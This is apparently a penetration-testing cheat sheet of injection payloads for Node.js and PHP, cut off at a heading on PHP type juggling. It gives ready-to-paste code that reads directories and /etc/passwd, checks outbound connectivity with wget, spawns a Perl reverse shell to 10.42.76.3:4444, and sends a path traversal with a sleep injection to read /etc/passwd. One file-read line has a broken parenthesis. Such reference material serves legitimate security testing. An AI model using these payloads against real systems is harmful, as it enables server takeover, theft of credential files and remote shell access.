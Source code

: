 "SyntaxError: Unexpected token function"

"SyntaxError: Unexpected end of input"

Test for injection:

{% highlight javascript %}
0; res.json({"foo": "bar"});
//look for json foo back

res.end('test') 
//res.end method terminates backend processing and sends contents to user
{% endhighlight %}

Read Files and Directories:

{% highlight javascript %}
 //directories
 res.end(require('fs').readdirSync('.').toString())

//files
0; var fs = require('fs'); fs.readFile('/etc/passwd', function(err, data) {
    res.writeHead(200, {'Content-Type': 'text/html'});
    res.write(data);
    res.end();
  });
  
  //files
  res.end(require('fs'.readFileSync('/etc/passwd').toString())
 
{% endhighlight %}

Test remote connectivity:

{% highlight javascript %}
0; var exec = require('child_process').exec; var child = exec('wget -O /dev/null -q 10.42.76.3',function (error, stdout, stderr) { });
{% endhighlight %}

Remote Shell:

{% highlight javascript %}
0; var exec = require('child_process').exec; var child = exec("perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,\"10.42.76.3:4444\"); STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'",function (error, stdout, stderr) { });
{% endhighlight %}

> **PHP Code Injection**

{% highlight bash %}
#example string
'.sleep(hexdec(dechex(20))).'

#example request
/index.php?page=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd%00Admin'.sleep(hexdec(dechex(20))).'
{% endhighlight %}

> **PHP Juggling Authentication**
